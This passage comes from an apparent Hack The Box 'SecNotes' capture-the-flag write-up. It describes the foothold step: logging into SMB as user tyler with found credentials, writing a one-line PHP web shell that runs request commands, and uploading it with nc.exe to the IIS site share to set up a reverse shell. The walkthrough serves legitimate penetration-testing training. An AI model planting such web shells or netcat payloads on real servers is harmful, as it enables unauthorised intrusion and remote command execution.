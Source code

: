 ![tyler SMB credentials](/images/htb_secnotes_smb_credentials.png)

# Foothold
### SMB access as tyler
With the SMB credentials we found, we can access SMB as the user tyler:
```shell
impacket-smbclient tyler:'92g!mA8BGjOirkL%OG*&'@10.129.143.191
```
The share new-site took our attention. It seems like it is the directory of the IIS website at port 8808. If we manage to upload a webshell, we can get system shell access as the user tyler using a reverse shell.

### Getting shell access as the user tyler
To gain access as the user tyler, we will use SMB to upload a cmd.php shell to interact with nc.exe.

First create and get the files we need:
```shell
# Create cmd.php
echo '<?php system($_REQUEST['cmd']); ?>' > cmd.php

# Get nc.exe
cp /usr/share/windows-resources/binaries/nc.exe .
```

And now upload them using SMB access:
```shell
impacket-smbclient tyler:'92g!mA8BGjOirkL%OG*&'@10.129.143.191
```

```shell
use new-site
put cmd.php
put nc.exe
```
